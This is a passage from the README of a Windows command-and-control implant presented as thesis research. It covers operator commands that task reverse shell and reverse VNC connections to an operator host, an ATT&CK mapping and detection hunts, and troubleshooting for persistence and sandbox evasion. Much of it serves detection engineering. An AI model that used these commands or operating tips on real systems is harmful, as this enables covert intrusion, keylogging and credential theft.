python server/c2_cli.py task <sid> "!reverse <operator-ip>:4444"
python server/c2_cli.py task <sid> "!vnc <operator-ip>:5500"
# the operator side must already be listening:
#   vncviewer -listen            (viewer in reverse/listen mode on 5500), or
#   ngrok tcp 5500               in front of that listener for a remote operator
```

---

## 15. Testing and CI

### Local suites

| Command | Coverage |
|---|---|
| `python tests/test_protocol.py` | **27 checks** against a live server instance: ECDH handshake, encrypt/decrypt round trips with tricky payloads, task/result flow, `tid` delivery + ack, at-least-once retry, duplicate-result dedup, replay-counter rejection, re-handshake after server restart |
| `powershell -File tests/test_browser.ps1` | `!browser` recovery logic against a **synthetic** profile in `%TEMP%` — one `v10` AES-GCM row and one legacy DPAPI row; no real browser data is read or touched |
| `python tests/verify_chunks.py` | Asserts the XOR chunks embedded in `src/c2.cpp` reconstruct `tests/browser_dump.ps1` **byte-for-byte** |
| `python tests/gen_browser_chunks.py` | Regenerates those chunks — run it after editing `browser_dump.ps1`, the PowerShell file is the single source of truth |

`tests/browser_dump.ps1` is the tested, readable origin of the implant's embedded recovery script;
the implant ships the compiled-out chunk form of its library section.

### Continuous integration

[`.github/workflows/ci.yml`](.github/workflows/ci.yml) gates every push to `main` and every pull
request with two jobs on `ubuntu-latest`:

1. **Protocol tests** — Python 3.11, install `server/requirements.txt`, run `tests/test_protocol.py`.
2. **Cross-compile** — install `mingw-w64`, build a release implant with placeholder values
   (`ci-build.example.invalid`, non-operational token), then assert the artifact exists and is a
   Windows PE via `file`.

A green CI therefore means both "the channel still behaves correctly" and "the implant still
builds warning-clean", without any live implant involved.

---

## 16. MITRE ATT&CK mapping

Every implanted technique is a detection test case — validate an EDR against one row at a time.

| Technique | ATT&CK | Module |
|---|---|---|
| HTTPS application-layer C2 beacon | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | `c2.cpp` |
| Jittered beacon timing / scheduled transfer | [T1029](https://attack.mitre.org/techniques/T1029/) | `config.hpp`, `c2.cpp` |
| Encrypted channel — symmetric + asymmetric | [T1573.001](https://attack.mitre.org/techniques/T1573/001/) · [T1573.002](https://attack.mitre.org/techniques/T1573/002/) | `utils.cpp`, `c2.cpp` |
| Protocol / User-Agent impersonation | [T1001.001](https://attack.mitre.org/techniques/T1001/001/) | `c2.cpp` |
| Direct syscalls (Hell's Gate, Halo's Gate) | [T1106](https://attack.mitre.org/techniques/T1106/) | `syscalls.cpp` |
| Obfuscated strings, hashed imports, stripped PE | [T1027](https://attack.mitre.org/techniques/T1027/) | `obfuscate.hpp`, `build.sh` |
| Process injection (remote thread) | [T1055](https://attack.mitre.org/techniques/T1055/) | `injection.cpp` |
| APC injection | [T1055.004](https://attack.mitre.org/techniques/T1055/004/) | `injection.cpp` |
| Parent PID spoofing | [T1134.004](https://attack.mitre.org/techniques/T1134/004/) | `injection.cpp` |
| Token duplication + impersonation (winlogon) | [T1134.001](https://attack.mitre.org/techniques/T1134/001/) | `c2.cpp` |
| Registry Run key persistence (HKCU/HKLM) | [T1547.001](https://attack.mitre.org/techniques/T1547/001/) | `persistence.cpp` |
| Scheduled task persistence | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) | `persistence.cpp` |
| WMI event subscription persistence | [T1546.003](https://attack.mitre.org/techniques/T1546/003/) | `persistence.cpp` |
| Masquerading as a Microsoft binary (name, version info, PEB path) | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) | `ghost.rc`, `ghost.manifest`, `main.cpp` |
| Hidden + system install file | [T1564.001](https://attack.mitre.org/techniques/T1564/001/) | `main.cpp` |
| Hidden window process creation (`SW_HIDE`, `CREATE_NO_WINDOW`) | [T1564.003](https://attack.mitre.org/techniques/T1564/003/) | `main.cpp`, `c2.cpp` |
| AMSI / ETW patching, Defender exclusion | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | `evasion.cpp` |
| Sandbox / analysis-environment checks | [T1497.001](https://attack.mitre.org/techniques/T1497/001/) · [T1497.003](https://attack.mitre.org/techniques/T1497/003/) | `evasion.cpp`, `main.cpp` |
| Hardware-breakpoint clearing | [T1622](https://attack.mitre.org/techniques/T1622/) | `evasion.cpp` |
| Single-instance execution guard | [T1480.001](https://attack.mitre.org/techniques/T1480/001/) | `main.cpp` |
| Self-deletion of the original dropper | [T1070.004](https://attack.mitre.org/techniques/T1070/004/) | `main.cpp` |
| PE compile-timestamp randomization (build-time) | [T1070.006](https://attack.mitre.org/techniques/T1070/006/) | `build.sh` |
| Persistence removal (`!uninstall`) | [T1070.008](https://attack.mitre.org/techniques/T1070/008/) | `c2.cpp`, `persistence.cpp` |
| Keylogging via low-level hook | [T1056.001](https://attack.mitre.org/techniques/T1056/001/) | `keylog.cpp` |
| Browser credential store extraction | [T1555.003](https://attack.mitre.org/techniques/T1555/003/) | `c2.cpp` |
| Screen capture | [T1113](https://attack.mitre.org/techniques/T1113/) | `c2.cpp` |
| Clipboard capture | [T1115](https://attack.mitre.org/techniques/T1115/) | `c2.cpp` |
| Ingress tool transfer / file staging | [T1105](https://attack.mitre.org/techniques/T1105/) | `c2.cpp` |
| Data from local system | [T1005](https://attack.mitre.org/techniques/T1005/) | `c2.cpp` |
| Remote desktop control (reverse VNC, synthetic input) | [T1021.005](https://attack.mitre.org/techniques/T1021/005/) | `vnc.cpp` |

> IDs were checked against the Enterprise matrix when the modules were written. Re-verify against
> the current matrix before citing them in the thesis — ATT&CK renumbers and renames periodically.

---

## 17. Detection guidance

The point of the project. For each mechanism, the artifact a defender should be able to find.

| Hunt for | Where to look | Suspicious because |
|---|---|---|
| `WindowsSecurityUpdate.exe` on disk or in a process list | Sysmon EID 1/11, asset inventory | Not a real Windows binary; real paths are `System32`/`Microsoft\Windows\…` — the `%APPDATA%\Microsoft\WindowsUpdate` location is the tell |
| Image loaded from `%APPDATA%` with Microsoft version metadata | Sysmon EID 1 + `FileVersion`/`CompanyName` | Signed-metadata look without an Authenticode signature |
| Process whose PEB path ≠ its real on-disk path | EDR process tree vs. filesystem correlation | Deliberate `ImagePathName` overwrite |
| `CreateRemoteThread` / `NtCreateThreadEx` into `svchost`, `explorer`, `winlogon` | Sysmon EID 8, ETW `Microsoft-Windows-Kernel-Process` | Cross-process write + start is the injection signature |
| Remote allocation that lands `PAGE_READWRITE` and is then flipped to `PAGE_EXECUTE_READ` | ETW `Kernel-Processthread`, `NtProtectVirtualMemory` tracing | The write-then-protect dance in a **foreign** process is the injection signature; GDI/heap code does not do it |
| Child process with an implausible parent (e.g. `cmd.exe` parented to `svchost.exe`) | Process-tree analytics | PPID spoofing changes only the claimed parent |
| `amsi.dll` / `etw.dll` text-page modifications in a scanned process | EDR hook-integrity checks, `VirtualProtect` call tracing | Patched to `xor eax,eax; ret` / `ret` |
| `Add-MpPreference` / `ExclusionPath` registry writes, tamper-protection keys | Sysmon EID 12/13/14 on `Microsoft\Windows Defender` | Exclusion added by a non-management process |
| WMI `NTEventFilter` / `EventConsumer` / `FilterToConsumerBinding` creation | ETW `Microsoft-Windows-WMI-Activity/Operational` (event id 11 logs new bindings), repository deltas | Permanent subscriptions are the classic WMI persistence |
| `schtasks.exe /Create /TN MicrosoftEdgeUpdateTaskUser` with `/RL HIGHEST` | Sysmon EID 1 command line | Task name mimics Edge but the action path is user-writable |
| Run-key writes referencing `%APPDATA%` | Registry EID 12/13/14 | User-writable autostart target |
| Beacon at a 18–24 s jitter with a `Microsoft-WNS/10.0` User-Agent | Network/egress telemetry, JA3 + SNI baselines | Real WNS traffic does not post encrypted JSON to an ngrok domain |
| High-entropy short POST bodies to a new tunnel domain at a fixed cadence | DNS + proxy logs, TLS SNI | Randomized ciphertext + regular intervals ≈ C2 |
| `SetThreadExecutionState` from an unsigned GUI-subsystem binary | ETW / API monitoring | Sleep evasion in a "update service" helper |
| Debug registers cleared (`Dr7 = 0`) on a new thread | EDR anti-debug telemetry | Anti-instrumentation |
| `WH_KEYBOARD_LL` hook installed by an unfamiliar process | ETW / hook enumeration | Keylogging without a product purpose |
| `winsqlite3.dll` loaded by an Office/update-looking binary, reading `Login Data` | Sysmon EID 7 (image load) + 11 | Stock-Windows credential theft path — no dropped tools |
| `DPAPI` `CryptUnprotectData` calls in an unusual process | ETW `Microsoft-Windows-Crypto-DPAPI` | Master-key unwrap should be rare and attributable |
| Outbound TCP to an operator-controlled port (reverse VNC/shell) | Egress + NetFlow | Dial-out control channel bypasses inbound restrictions |
| Self-deletion of the just-executed original binary | Sysmon EID 23 FileDelete | Dropper cleanup signature |

---

## 18. Known limitations and scope

Documented deliberately — these are part of the thesis, not bugs to hide.

| Limitation | Detail |
|---|---|
| **Server identity is not authenticated** | The handshake authenticates the *beacon token*, not the server, and WinHTTP is deliberately configured with `SECURITY_FLAG_IGNORE_UNKNOWN_CA`, `_CERT_DATE_INVALID`, `_CERT_WRONG_USAGE` and `_CERT_CN_INVALID` — so an active HTTPS-MITM in front of the server can interpose. Channel encryption defends against passive observers and the tunnel provider, not an active adversary. Certificate pinning is on the [roadmap](#22-roadmap). |
| Ephemeral XOR key | The rotating 4-byte key is a compile-time constant; anyone with the source can decrypt sample strings. It raises the bar for automated matching, not for a human analyst. |
| **In-memory state only** | No database: restarting the server discards sessions, results, task queues, audit trail and the staged payload. The re-handshake path recovers agents, not history. |
| No asymmetric operator auth | The operator token is a shared bearer secret over the dashboard/CLI; there is no per-user identity, so the audit trail attributes actions to tokens and IPs, not people. |
| Token stealing is `winlogon`-specific | `steal_token` targets `winlogon.exe` by name and needs the privileges to open it; on non-elevated runs it fails rather than degrading. |
| Chrome app-bound encryption | Chrome ≥ 127 `v20` blobs are detected and reported as **not recoverable**; Edge is unaffected. This is an honest scope boundary, not a defect. |
| Windows-only, x64-only | Syscall stubs use `4C 8B D1 B8` (x64) patterns; no ARM64 or 32-bit support, no cross-platform implant. |
| AMSI/ETW patching is per-process | It silences in-process reporting for the implant only; it does not disable system-wide EDR telemetry, and modern EDRs detect the patch itself. |
| Beacon cadence is a signature | Jitter hides fixed intervals from naive thresholds but the 18–24 s volume and cadence remain highly regular. Rapid-poll shell mode (1 s) is trivially visible on the wire. |
| Manual enrollment is optional | `--auto-accept` accepts every agent that presents the beacon token — convenient in a lab, unsafe anywhere a token could leak. |

---

## 19. Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| `[!] x86_64-w64-mingw32-g++ not found` | Toolchain missing | `sudo ./build.sh --setup` |
| `[!] invalid beacon token` | Token outside 16–128 `[A-Za-z0-9_-]` | Press Enter at the prompt to generate a valid one |
| `[!] invalid C2 host` | Host contains a scheme, path or spaces | Pass a bare hostname, e.g. `C2_HOST=abc.ngrok-free.dev` |
| `--tls needs pyOpenSSL` | `ssl_context="adhoc"` requires it | `pip install pyOpenSSL` |
| `[!] Missing: pip install flask` / `requests` | Server dependencies absent | `pip install -r server/requirements.txt` |
| `No C2 URL configured` / `No operator token` | CLI has no config source | `--url/--token`, or `GHOST_C2_URL`/`GHOST_OPERATOR_TOKEN`, or `c2_cli.py config set` |
| `401` from the CLI or no beacon accepted | Beacon/operator token mismatch with the server | Start the server with the **same** token `build.sh` used; changing it invalidates existing implants — rebuild |
| `No active sessions. Retrying…` | Implant never reached the server, or it was rejected | Check the tunnel URL, `--auto-accept`, then VM egress/DNS. Confirm with `c2_cli.py ping` |
| Agent appears then disappears | Idle beyond `session_ttl`, or the VM was snapshotted/restored | Re-run the implant; raise `session_ttl` for long demos |
| Session never executes tasks | New session pending approval | Accept it in the dashboard or `POST /sessions/<sid>/accept` |
| `waiting…` then `Timed out waiting for result (90 s)` | Beacon interval longer than the CLI timeout, or the task is slow (large upload) | `!shell` for rapid polling, `results <sid>` later, or `sleep 5` to shorten the interval |
| Screenshot is a corrupt/blank image | Result truncated in transit | Expected only if the 32 MB exemption is exceeded — capture at a lower `scale` |
| Nothing persists after reboot | Non-elevated run skips HKLM/HIGHEST paths and Defender exclusion | Run once elevated to exercise the privileged branches |
| Implant idles forever on a VM | Sandbox heuristic (uptime under 240 s and fewer than 50 processes) | Let the VM sit at a logged-in desktop for a few minutes, or build `--debug` (checks disabled) |
| VNC viewer shows nothing | `!vnc` **dials out**, so the viewer must listen first | Start `vncviewer -listen` (or an ngrok TCP endpoint in front of it) **before** tasking `!vnc <host:port>`; `nc -l <port>` only proves the connection lands, it cannot render a desktop |
| `[app-bound encrypted - not recoverable]` | Chrome ≥ 127 v20 entries | Expected and documented; see [Limitations](#18-known-limitations-and-scope) |
| Two identical sessions in the list | Same session id with different per-run ids after a restart | Normal — the 8-hex run id distinguishes them |

---

## 20. Project layout

```text
ghostimplant/
├── include/
│   ├── c2.hpp              beacon loop + task dispatcher interface
│   ├── config.hpp          build-time knobs, timing, output caps
│   ├── obfuscate.hpp       XS/XSW XOR strings, FNV-1a, HashProc
│   ├── syscalls.hpp        Nt* prototypes + resolved syscall table
│   ├── evasion.hpp         AMSI/ETW/HWBP, sandbox, wake lock
│   ├── injection.hpp       injection + PPID spoofing
│   ├── persistence.hpp     registry / WMI / scheduled task install + remove
│   ├── keylog.hpp          hook lifecycle
│   └── vnc.hpp             reverse-VNC server interface
├── src/
│   ├── main.cpp        (374)   entry, PEB spoof, self-install, supervisor, startup order
│   ├── c2.cpp          (1962)  transport, ECDH/AES, beacon loop, command table, all handlers
│   ├── utils.cpp       (466)   AES-GCM + ECDH via BCrypt, base64, SHA-256, system info, jitter
│   ├── vnc.cpp         (415)   reverse RFB 3.3 server, tile diffing, SendInput replay
│   ├── syscalls.cpp    (364)   Hell's Gate + Halo's Gate, trampoline stubs
│   ├── injection.cpp   (347)   remote-thread + APC chains, PPID spoofing
│   ├── evasion.cpp     (347)   AMSI/ETW patching, HWBP clear, sandbox, Defender exclusion, wake lock
│   ├── persistence.cpp (327)   three install vectors + symmetric removal
│   └── keylog.cpp      (121)   WH_KEYBOARD_LL hook + circular buffer
├── server/
│   ├── c2_server.py    (2114)  Flask REST, crypto, queues, audit, web dashboard
│   ├── c2_cli.py       (999)   operator console + subcommands + reverse listener
│   ├── requirements.txt
│   └── ghost-c2.service        systemd unit for lab-VPS hosting
├── tests/
│   ├── test_protocol.py        27 end-to-end channel checks
│   ├── browser_dump.ps1        source of truth for the embedded recovery script
│   ├── gen_browser_chunks.py   PowerShell → XSW chunks in c2.cpp
│   ├── verify_chunks.py        chunk ↔ script byte equality
│   └── test_browser.ps1        synthetic-profile recovery test
├── resources/                  PE version resource, manifest, prank wallpaper
├── .github/workflows/ci.yml    protocol tests + MinGW cross-compile
└── build.sh                    cross-compile, strip, timestamp randomization
```

---

## 21. Contributing

Contributions aimed at **research and detection value** are welcome.

1. Branch from `main`; keep one technique per change so it stays individually measurable.
2. Implant work must stay warning-clean with MinGW `-Wall -Wextra` and must not add API name or
   URL string literals — use `XS`/`XSW`/`FNV`/`HASHPROC`.
3. Any protocol change requires a matching case in `tests/test_protocol.py`; both CI jobs must pass.
4. Add or update the [ATT&CK row](#16-mitre-attck-mapping) and the [detection guidance](#17-detection-guidance)
   for anything new — an undocumented technique has no research value.
5. Never commit tokens, tunnel URLs, `build/` output, `.exe` artifacts, or captures from a real target.
6. Keep the authorized-use notice intact in any derived documentation.

---

## 22. Roadmap

- [ ] DNS-over-HTTPS fallback channel
- [ ] Optional server-certificate pinning in the implant (closes the active-MITM gap)
- [ ] Detection-validation harness that emits ATT&CK coverage matrices from the audit trail
- [ ] Persistent server state (SQLite) so restarts keep sessions, results and audit history
- [ ] Per-operator identities instead of one shared bearer token
- [ ] Operator documentation + architecture chapter for the thesis write-up

---

## 23. License and permitted use

This project is **not** offered under an open-source license. No file named `LICENSE` exists in the
repository and all rights are reserved by the author; the badges above describe it as restricted and
research-only on purpose.

Permission is granted to use, modify and study GHOST **only** for:

- academic research and thesis work on Windows internals, adversary emulation and detection engineering;
- security testing of systems **you own**, or that you have explicit written authorization to test;
- isolated, non-production laboratory environments with no real credentials or user data.

Use for unauthorized access, credential theft against real persons, or deployment outside a lab is
prohibited. Requests beyond that scope should go to the repository owner.

---

## 24. Disclaimer

This software is provided for **educational and authorized research purposes only**. It implements
techniques that are illegal to use against systems you do not own or lack written authorization to
test. The author does not endorse, support or condone unauthorized access, malicious activity, or any
misuse of this software. Use it only inside isolated, authorized laboratory environments, and restore
your VM snapshots when a run finishes.

<div align="center">

*Research. Emulate. Detect. Improve.*

</div>
